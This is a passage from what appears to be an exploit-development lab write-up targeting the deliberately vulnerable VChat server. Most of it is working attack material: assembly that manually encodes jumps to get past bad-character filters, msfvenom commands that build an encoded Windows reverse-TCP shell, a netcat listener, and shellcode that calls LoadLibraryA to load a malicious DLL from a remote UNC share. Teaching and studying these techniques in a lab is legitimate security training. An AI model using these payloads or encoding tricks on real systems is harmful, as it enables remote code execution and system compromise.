		```
		┌──(kali㉿kali)-[~]
		└─$ cat jmp_l.bin | msfvenom -p - -a x86 --platform windows -e x86/shikata_ga_nai -f python -v SHELL -b '\x00x\0a\x0d'
		Attempting to read payload from STDIN...
		Found 1 compatible encoders
		Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
		x86/shikata_ga_nai succeeded with size 32 (iteration=0)
		x86/shikata_ga_nai chosen with final size 32
		Payload size: 32 bytes
		Final size of python file: 180 bytes
		SHELL =  b""
		SHELL += b"\xbe\x55\xf3\x3a\xe6\xda\xdd\xd9\x74\x24\xf4\x5f"
		SHELL += b"\x29\xc9\xb1\x02\x31\x77\x13\x03\x77\x13\x83\xc7"
		SHELL += b"\x51\x11\xcf\x0f\x1a\x27\xcf\x2f"
		```

	4. The primary focus of this will be manually encoding the long jump instruction, but an example using the [`x86/shikata_ga_nai`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) output is included in [exploit7a.py](./SourceCode/exploit7a.py); we can see there are a few issues!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/7bcab6a2-4b9a-4f8d-99bb-676b9a7855d4

		* Below is the encoded shellcode once it has been injected.

			

4. Now, we can manually encode a short jump and set the ESP value to one in our execution path! This is so we can have space to use a pre-made encoder to create our long jump!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d75ea194-1beb-4e5d-b9a0-3addc3748fe0

	1. First, we want to adjust the `ESP` register's value so that during our exploit, we do not overwrite our own shellcode. The following instructions can help us do this.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	ADD AX,0x<VALUE>  ; Add to the lower 16 bytes of the register
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```
	* For the add instruction, we need to do a little math! My ESP during this exploitation is at `0x010CEDE0`, and the end of the 41-byte buffer is at `0x010CFFFF`. To get this, we need to add `0x0000121F`.
		1. We could try adding this to the lower 16 bits in 2 instructions (the lower and upper lower half), however the `ADD AH,0x12` instruction has the value of `0x80C412` which contains a bad character `C4`!
			```
			ADD AL,0x1F
			ADD AH,0x12
			```
		2. Using the AX register allows us to do the addition in one instruction, without any bad characters.
			```
		    ADD AX,0x121F
			```
		3. If your addition constant contains a bad character, you may need to perform two or more additions with values containing only good characters, as shown below, to get the same result as the single addition.
		```
		; Bad Char Addition contains 0xD3
		ADD AX,0x13D3

		; Multiple additions containing only good characters to get the same result as ADD AX,0x13D3
		ADD AX,0x097F
		ADD AX,0x0a54
		```
		4. We can generate this assembly by right-clicking the instruction view window at the location where we want to modify the program and selecting assemble.

			

		5. We then enter in the instruction we would like to assemble.

			

		6. Repeat the assembly steps (4,5) for all of the other instructions.

	2. We can modify the exploit program to reflect [exploit7b.py](./SourceCode/exploit7b.py) and test it as we have done previously. This will verify the jump's manual encoding and decoding are working correctly!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/898f0366-649e-4b49-88bc-3a613e69380f

		1. Click on the black button highlighted below, enter in the address we decided in the previous step.

			

		2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			

		3. Run [exploit7b.py](./SourceCode/exploit7b.py), and pass the exception to the VChat program.

			

	3. We will now add instructions to create a zeroed register value.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/20beb107-c4bb-45ec-a2d1-9d5341d6fa04

		1. We will not be using the traditional `XOR EAX,EAX` instruction, as using a register `EAX` for a source leads to the inclusion of bad characters, as we use the value `0xC0` to identify the `EAX` register.

			

		2. An alternative method of creating a zeroed register without using any of the bad characters is to use the `AND` instruction twice. We first perform a boolean `AND` operation on the EAX register with some 32-bit value. Then, we perform a second boolean `AND` operation on the EAX register with some other value that, when a bitwise `AND` is applied to the previous value, produces 0. The challenge for this is finding a value with no bad characters and whose logical inverse also contains no bad characters.

			```
			AND EAX,0x554E4D4A
			AND EAX,0x2A313235
			```

			* performing the bitwise AND of these two values will result in a 0.
			```
			0101 0101 0100 1110 0100 1101 0100 1010

			AND

			0010 1010 0011 0001 0011 0010 0011 0101

			---------------------------------------
			0000 0000 0000 0000 0000 0000 0000 0000
			```

			* This is possible due to the way the [boolean `AND`](https://learn.microsoft.com/en-us/dotnet/csharp/language-reference/operators/boolean-logical-operators) operation works. Each bit is compared and the result is shown below.
				| Bit X | Bit Y | Result of X & Y |
				| ----- | ----- | --------------- |
				|   0   |   0   |       0         |
				|   0   |   1   |       0         |
				|   1   |   0   |       0         |
				|   1   |   1   |       1         |


		3. Now using Immunity Debugger we can generate the assembly instructions we need to embed in our shellcode!

			1. We can generate assembly by right-clicking the instruction view window at the location where we want to modify the program and selecting assemble.

				

			2. We then enter the instructions we would like to assemble.

				

			3. Repeat this for the other `AND` instruction.

				

		4. We can modify the exploit program to reflect [exploit8.py](./SourceCode/exploit8.py) and test the program as we have done previously.

			https://github.com/DaintyJet/VChat_LTER/assets/60448620/e49eb041-2a0c-42b8-9346-4e9718ff7dae

			1. Click on the black button highlighted below, and enter the address we decided in the previous step.

				

			2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

				

			3. Run [exploit8.py](./SourceCode/exploit8.py), and pass the exception to the VChat program.

				

	4. Now, we will add instructions to create the short 127-byte jump, whose machine code will be stored in the `EAX` register we have zeroed out, and then push it onto the stack (which we are executing on!). We do this since it is easier to create a 2-byte instruction through addition like the short jump rather than a 5-byte instruction like the long jump (a 32-bit register is only 4 bytes!).

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/88121655-dcd7-41bb-9054-bb57a135722b

		1. At first glance, it may seem like we can use two ADD instructions on the lower 16 bits of the register. However, when we generate the assembly for this, we get instructions that contain bad characters! Again, we have a register identifier `0xC0` in the output!
			```
			ADD AX,0x75C0 (0x6605C075)
			ADD AX,0x75C0 (0x6605C075)
			```
		2. Attempting to use the entire 32-bit register appears to bypass the bad character restriction! However, since the short jump instruction is only 16-bits, and the registers operate on 32-bits we will need to append some `NOP` (0x90) instructions to the short jump before we find the two values we need to reconstruct it.
			* At first glance, we would think that our initial value should be `0xEB809090`. However, since the x86 architecture is [*little endian*](https://www.ibm.com/support/pages/just-faqs-about-little-endian), we actually reverse this value to be `0x909080EB` in order to get our intended instructions loaded onto the stack.

			* With our original value of `0x909080EB` we can simply divide by 2 and get that `0x48484075 + 0x48484076` as our decomposition.
			```
			ADD EAX,0x48484075 (0x0575404848)
			ADD EAX,0x48484076 (0x0576404848)
			```
		3. In order to use the instruction we created in the `EAX` register, we will need to place it somewhere in memory. It just so happens we are executing on the stack, where we can use the `PUSH` instruction to inject the new instruction onto the stack!
			```
			PUSH EAX
			```
		4. Now using Immunity Debugger we can generate the assembly instructions we need to embed in our shellcode!

			1. We can generate assembly by right-clicking the instruction view window at the location where we want to modify the program and selecting assemble.

				

			2. We then enter the instructions we would like to assemble.

				

			3. Repeat this for the other `ADD` instruction.

				

			4. Repeat this for the `PUSH` instruction.

				

		5. We can modify the exploit program to reflect [exploit9.py](./SourceCode/exploit9.py) and test the program as we have done previously. We do this to ensure the manually encoded instruction will be properly reconstructed and placed on the stack.

			https://github.com/DaintyJet/VChat_LTER/assets/60448620/3f147346-e329-45a7-9913-0cc559681e13

			1. Click on the black button highlighted below, enter in the address we decided in the previous step.

				

			2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`.

				

			3. Run [exploit9.py](./SourceCode/exploit9.py), and pass the exception to the VChat program.

				

5. After the jump in this instance, we arrived at the address `0x010BFF7D`, and our two short conditional jumps are at the address `0x010BFFCC`. This means we have 78 bytes of space to work with! We now need to perform a long jump to the start of the buffer!
	1. In my case, the address near the start of the buffer I have chosen to jump to is `0x010BF223`. We can determine the machine code used to achieve this by assembling it as shown below in Immunity Debugger. (Scroll to the start of the buffer where the first `A` is located to get an address).

		

	2. The decoder that we generate may perform operations on the stack so we want to make sure during those operations, we will not corrupt our shell code and if we generate an instruction to later place it on the stack using a `PUSH EAX` instruction we need to make sure the location we will write this to is accessible to our currently executing shell code. So we can simply realign the `ESP` value similar to how we did this in the [exploit7b.py](./SourceCode/exploit7b.py) code. We modify this so the `ESP` value is decremented, putting it in a better position which is unlikely to conflict with the currently executing shell code. This is because the stack will continue to grow down, while the shellcode that makes up the decode and encoded shellcode is located **above** the new `ESP` value.

	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x30        ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x30
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

	* This results in the code shown in [exploit10.py](./SourceCode/exploit10.py).
		```
		b'A' * (3506 - 79) +
		# Align stack for long jump
		b'\x54' +           # PUSH ESP
		b'\x58' +           # POP EAX
		b'\x2c\x30' +       # SUB AL,30
		b'\x50' +           # PUSH EAX
		b'\x5c' +           # POP ESP
		b'A' * (79 - 6) +   # Fill the rest of our buffer with A
		```
		* `b'A' * (3506 - 79)` We place the first series of `A`s so that our stack realignment is placed where the 127-byte short jump lands.
		* We inject the necessary instructions for the stack realignment.
		* `b'A' * (79 - 6)`: We place additional `A`s so the short conditional jumps are placed where the SEH handler jumps to.
	1. We can modify the exploit program to reflect [exploit10.py](./SourceCode/exploit10.py) and test the program as we have done previously. This allows us to verify the stack repositioning used before the encoded long jump is placed on the stack.

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/d14cb21b-3068-4f66-ab22-53cd62c0e7c0

		1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			

		2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

			

		3. Run [exploit10.py](./SourceCode/exploit10.py), and pass the exception to the VChat program.

			

6. Now we can use a pre-made encoder to generate the shellcode used to perform the long jump. The author of the blog this is based on used their own modification of an encoder known as the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder). We can try and use a more well known [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) encoders first!
	1. Using the [exploit10.py](./SourceCode/exploit10.py) and the Immunity Debugger's assembler I generated the machine code for the long jump operation `E956F2FFFF`, although you should not jump to the very start of your buffer, I was able to get it to work when doing this, otherwise the jump instructions were off in my case.

		

	2. Generate the machine code (byte) file
		```
		python -c "buff= b'\xe9\x56\xf2\xff\xff'; fd = open('jmp_e10.bin', 'wb'); fd.write(buff)"
		```
	3. Generate the shellcode with [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) using the [`x86/xor_poly`](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/shikata_ga_nai) encoder.

		```
		cat jmp_e10.bin | msfvenom -p - -a x86 --platform windows -e x86/opt_sub  -f python -v SHELL -b '\x00x\0a\x0d\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		* So far, the encoders I have tried do not work due to the restrictive character set or length of the encoded string! We can generate encoded shellcode using these, but not with the restrictive character set for those I have tried.
	4. Download the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder), enter into it's directory, and install `z3-solver`.
		```
		$ git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git && cd Automatic-ASCII-Shellcode-Subtraction-Encoder && pip install z3-solver
		```
	5. Run the following command to generate the encoded long jump shellcode.
		```
		python3 encoder.py -m -p -s 'E956F2FFFF ' -v JUMP_ENCODE
		```
		* `python3 encoder.py`: Run the `encoder.py` with the python3 interpreter.
		* `-m`: Generates shellcode in the format expected by python `\x00 - \xff`.
		* `-p`: Pad shellcode so it is a multiple of 4.
		* `-s <Shellcode>`: Shellcode to encode as we added the `-p` flag. This can be of any length.
		* `-v`: Name of variable for output.
	6. Add the Encoded Long Jump shellcode to the exploit as shown in [exploit11.py](./SourceCode/exploit11.py), and test it!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/47b5df9a-6c07-4cd0-9314-42cb6e135360

		1. Click on the black button highlighted below, and enter in the address we decided in the previous step.

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`.

			

		3. Run [exploit11.py](./SourceCode/exploit11.py), and pass the exception to the VChat program.

			

Now that we have all the necessary parts for the creation of an exploit.
### Exploitation
We can exploit VChat with `LTER` in several possible ways now that we have jumped to the start of the buffer we control. The original [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/) injects the custom shellcode similar to the one used in the [KSTET_Multi](https://github.com/DaintyJet/VChat_KSTET_Multi) exploit. This is discussed in the section [Multi-Stage](#multi-stage); However, this does not appear to work reliably in the VChat server with the `LTER` exploit. So, we also modified the exploit code to inject a similar multi-staged attack discussed in [KSTET_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL).

> [!NOTE]
> In previous versions of this document we have attempted to use the msfvenom encoders like the `x86/add_sub` or the `x86/alpha_mixed` with the `bufferregister` set did not properly decode the shellcode, even though they were successfully injected without modifications.


<!-- #### Encoded-MSF-Exploit
With this exploit, we will use the well-known [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) tool to generate an encoded payload within the previously discussed constraints.

1. As we have done before we need to realign the stack pointer stored in the `ESP` register. This is because the encoder we will use later will need to know where in memory it is located. This option requires a register pointing to the start of our encoded shellcode, we do this as without this option enabled the exploit contains non-alphanumeric characters which cannot be transmitted to the server for use in the exploit.

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/239f12cd-243a-4b50-9cdb-47980585e10d

	1. We can get an idea of what operation, and the constant we should use by looking at the `ESP` value, and where we jump to on the stack.

		

		* Here my `ESP` register holds the value `0x013CFFC3` and the address we jump to is `0x013CF21E`, this gives us a difference of `0x0DA5` or 3,493 bytes! We know that we will need to move the `ESP` down by at least `0x0DA5` bytes, we will of course need to modify this offset to account for any padding (16 bytes) we add, and the set of instructions we use to update the ESP register. 

	2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as we have done previously, or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0DA5      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```

		

		* Notice that  in the subtraction instruction `\x66\x2d\xa5\x0d` we have an invalid character `a5`! This means we need to modify the program to perform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to perform 4 subtractions.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```

		

	3. Now we know that we have a padding of 16-bytes, and our newly added shellcode will take 20-bytes; so we can modify it to account for this by placing the stack pointer (`ESP`) at the head of our shellcode.
		```
		PUSH ESP  		   ; Push the ESP register's value onto the stack
		POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0369      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0369
		SUB AX,0x0346      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0344 to account for our 16-bytes of padding, and this shellcode
		PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
		POP ESP            ; Pop the adjusted ESP value into the ESP register
		```
		* We modify the final subtraction to reflect the padding and this shellcode

		


	4. Edit your exploit to reflect [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and test to ensure it works!

		https://github.com/DaintyJet/VChat_LTER/assets/60448620/935dce37-47b6-4712-afe6-af977a90faea


		1. Click on the black button highlighted below, and enter the address we decided in the previous step.

			

		2. Set a breakpoint at the desired address (Right click), in this case I chose `0x6250184E`.

			

		3. Run [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and pass the exception to the VChat program.

			

2. Now we need to generate the encoded shellcode that will be injected into the buffer, as stated before we will be using the [msfvenom](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) program.


	https://github.com/DaintyJet/VChat_LTER/assets/60448620/893c3b13-d436-4827-afb3-4802ea867a3e 

	1. We can first try generating a payload as we have done before (without an Encoder).

		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command
			* `-p  windows/shell_reverse_tcp`: Specify the payload as the Windows reverse tcp shell
			* Set the `LPORT` option to 8080 (or any other valid port)
			* Set the `LHOST` option to the IP of your remote host
		* `-a x86`: Specify the target architecture as `x86`
		* `--platform windows`: Specify the target platform as Windows
		* `-f python`: Format the output for use in a python script
		* `-b ...`: Specify the bad chars.

		

		* Notice that none of the encoders that *msfvenom* tried automatically worked, we can now try again but we need to specify which encoder should be used for better results!

	2. Now, we can specify an encoder such as [x86/alpha_mixed](https://www.infosecmatter.com/metasploit-module-library/?mm=encoder/x86/alpha_mixed) and use the available options to specify the register pointing to the buffer we will use as the `esp` register!
		
		```
		msfvenom -p windows/shell_reverse_tcp LPORT=8080 LHOST=10.0.2.15 -a x86 --platform windows -f python -e x86/alpha_mixed bufferregister=esp -b '\x00x\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff'
		```
		*  `msfvenom`: The MSFVenom command.
		* `-p  windows/shell_reverse_tcp`: Specify the payload as the Windows reverse TCP shell.
			* Set the `LPORT` option to 8080 (or any other valid port).
			* Set the `LHOST` option to the IP of your remote host.
		* `-a x86`: Specify the target architecture as `x86`.
		* `--platform windows`: Specify the target platform as Windows.
		* `-f python`: Format the output for use in a Python script.
		* `-e x86/alpha_mixed bufferregister=esp`: Specify the encoder we will use as -e `x86/alpha_mixed` with the `bufferregister` option set to use the `ESP` register.
		* `-b ...`: Specify the bad chars.

		

		* We can see this is quite a large exploit! Luckily, we have the space in our buffer for this, even with the pre-existing jumps!
	3. If you would like to try other encoders and see their options you will firs need to look at them within the [msfconsole](https://docs.rapid7.com/metasploit/msf-overview/).

		1. Open the [msfconsole](https://docs.rapid7.com/metasploit/msf-overview/).

			

		2. Search for x86 encoders.

			

		3. Select an encoder, we can do this with `use encoder/x86/<NAME>` or if we have done a search `use <index>` where index relates to the number next to the encoder in the search.

			

		4. Once selected, we can show the options.

			

			* Generally, these options will be reflected in the command line as all lowercase in the form `-e <encoder> <option>=<value>` as can be seen in `-e x86/alpha_mixed bufferregister=esp`.
		5. You can exit the *msfconsole* using the keyword `exit`.
3. Now that we have the shellcode, we can insert it into the exploit as is show in [exploit12b-MSF.py](./SourceCode/exploit12b-MSF.py).

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/d6b916f2-cc82-47fb-aabd-e5119b1c7a69


	1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		

	2. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

		

	3. Run [exploit12a-MSF.py](./SourceCode/exploit12a-MSF.py), and pass the exception to the VChat program.

		

4. Now we can start the [netcat](https://linux.die.net/man/1/nc) listener on our Kali machine for port 8080 and then run [exploit12b-MSF.py](./SourceCode/exploit6.py).

	```
	$ nc -l -v -p 8080
	```
	* `nc`: The netcat command.
	* `-l`: Set netcat to listen for connections.
	* `v`: Verbose output.
	* `p`: Set to listen on a port, in this case port 8080.

<!-- https://zflemingg1.gitbook.io/undergrad-tutorials/walkthroughs-osce/vulnserver-lter-command -->

#### DLL SideLoading
This is the most reliable version of the attack that we have found, as we do not face many encoding/decoding errors, and it has the least uncertainty involved as we are not guessing the socket's file descriptor as is done in the [Multi-Staged](#multi-stage) attack.


As we have done before, we need to realign the stack pointer stored in the `ESP` register; since we have jumped to the start of the buffer, there are a few thousand `A`s between us and the top of the stack. Additionally, if we do not move the stack pointer as the last instruction used by the decoder in the shellcode is `PUSH EAX`, the second stage shellcode is written to the stack following the `JMP <Head>` instruction, so we would never reach it!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/544540f9-6d4d-4262-b099-d987a5b86625

1. We can get an idea of what operation, and the constant we should use by looking at the `ESP` value, and where we jump to on the stack.

	

	* Here my `ESP` register holds the value `0x013CFFC3` and the address we jump to is `0x013CF21E`, this gives us a difference of `0x0DA5` or 3,493 bytes! As our stack grows down, to prevent overwriting our own shellcode when loading the arguments for `LoadLibraryA(...)` onto the stack, we need to place the ESP near the start of our shellcode so it can move it to a safe position, or place it far below our shellcode so it will not overwrite the shellcode. As we need to position the `ESP` to point to a location on the stack we can write to and fall into after our decoder has extracted the first stage, we will leave the further modifications required to protect the shellcode to the shellcode itself. This means we will subtract a value that is somewhere between `0` and `0x0DA5`. <!-- so I chose to use the offset `0x09A5` so we write to an address we will eventually execute without performing a jump, and we leave the additional stack manipulation needed to prevent the corruption of our shellcode to the shellcode itself. -->

2. We will use the machine code that results from the following x86 assembly instructions. We can generate them in Immunity Debugger as done previously or with the `/usr/share/metasploit-framework/tools/exploit/nasm_shell.rb` program on the Kali Linux machine.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x0DA5      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0DA5
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

	

	* Notice that in the subtraction instruction's machine code `\x66\x2d\xa8\x0d` we have an invalid character `a8`! This means we need to modify the program to perform two or more subtractions! Since we are not too concerned with the space this takes, I modified the shellcode to perform 4 subtractions.
	```
	PUSH ESP  		   ; Push the ESP register's value onto the stack
	POP EAX   		   ; Pop the ESP register's value as it is at the top of the stack into EAX
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	SUB AX,0x0269      ; Subtract from the lower 16-bits of the ESP (Stored in EAX) the hex value 0x0269
	PUSH EAX           ; Push the EAX register containing the adjusted ESP onto the stack
	POP ESP            ; Pop the adjusted ESP value into the ESP register
	```

3. Edit your exploit to reflect [exploit12.py](./SourceCode/exploit12.py), and run the exploit to ensure it works!

	https://github.com/DaintyJet/VChat_LTER/assets/60448620/507e8fe0-f90a-4ae2-80cb-7fe00fc86efe

    1. Click on the black button highlighted below, and enter the address we decided in the previous step.

		

	1. Set a breakpoint at the desired address (right-click); in this case, I chose `0x6250184E`.

		

	2. Run [exploit12.py](./SourceCode/exploit12.py), and pass the exception to the VChat program.

		


Now we can generate our *first stage* shellcode, unlike the [Multi-Staged](#multi-stage) exploit, we will not be using the `recv(...)` function to directly load our shellcode onto the stack, we will instead be using `LoadLibraryA(...)` combined with a malicious DLL to generate our reverse shell. More details on malicious DLLs and the `LoadLibraryA(...)` function are contained in the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup.

1. Locate the address of the `LoadLibraryA` function. To get this information, we can use [Arwin](https://github.com/xinwenfu/arwin) as shown below:
	```
	arwin.exe kernel32 LoadLibraryA
	```
	* `arwin.exe`: This is the arwin address resolution program.
	* `kernel32`: This is the DLL that the function is stored in that we should search.
	* `LoadLibraryA`: The function who's address we are attempting to resolve.

2. Using this address, fill out the shellcode source from the [VChat_DLL](https://github.com/DaintyJet/VChat_KSTET_DLL) writeup contained in [dll_shellcode.s](./SourceCode/dll_shellcode.s). Remember that you will have to modify the string used to load the DLL based on your IP!
	```
	sub esp,0x64            ; Move ESP pointer above our initial buffer to avoid
                        	; overwriting our shellcode
	xor ebx,ebx             ; Zero out EBX that will be the NULL byte terminating
							; the UNC path
	push ebx                ; PUSH NULL byte
	push 0x6c6c642e         ; \\10.0.2.15\ABCD\mal.dll reversed
	push 0x6c616d5c
	push 0x44434241
	push 0x5c35312e
	push 0x322e302e
	push 0x30315c5c
	push esp                ; Push pointer of the UNC path
	mov ebx,0x76ba32a0      ; Move into EBX the address of 'LoadLibraryA'
	call ebx                ; call 'LoadLibraryA("\\10.0.2.15\ABCD\mal.dll")'
	```

3. Now you can assemble the shellcode in the [dll_shellcode.s](./SourceCode/dll_shellcode.s) into it's associated machine code with the `nasm` program in the Kali Linux machine as shown below.
	```
	$ nasm -f elf32 -o shellcode.o dll_shellcode.asm
	```
4. We can extract the hexcodes used as input into our encoder the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) used in the [Blog](https://fluidattacks.com/blog/vulnserver-lter-seh/). This is done using the [extract.sh](./SourceCode/extract.sh) script shown below.
	```sh
	for i in $(objdump -d shellcode.o -M intel | grep "^ " | cut -f2); do
		echo -n '\x'$i;
	done;
	echo
	```
	* `for i in`: For each value `$i` generated by the following command.
	* `objdump -d shellcode.o -M intel | grep "^ " | cut -f2`: Extracts the hex shellcode.
		* `objdump -d shellcode.o -M intel`: Dump the assembly of the object file compiled for Intel format.
		* `grep "^ "`: Extract only those lines containing assembly.
		* `cut -f2`: Extract the second field, this contains the hex representation of the instructions.
	* ` do echo -n '\x'$i; done`: Echo the hex extracted in the format `\x<HexValue>`.
	* `echo`: Print an extra line.
	* **Note**: If you create this file, be sure to make it executable with `chmod +x extract.sh`, then you can run it using the command `./extract.sh`.

5. Use the [Automatic-ASCII-Shellcode-Subtraction-Encoder](https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder) as shown below. First you must have downloaded the encoder with the command `git clone https://github.com/andresroldan/Automatic-ASCII-Shellcode-Subtraction-Encoder.git`
	```
	$ cd Automatic-ASCII-Shellcode-Subtraction-Encoder # Enter into the directory with the python files
	$ python3 encoder.py -m -p -s '<SHELLCODE>' -v FIRST_STAGE
	```
	* Replace the `<SHELLCODE>`: With the hex string produced when you ran the [extract.sh](./SourceCode/extract.sh) script.

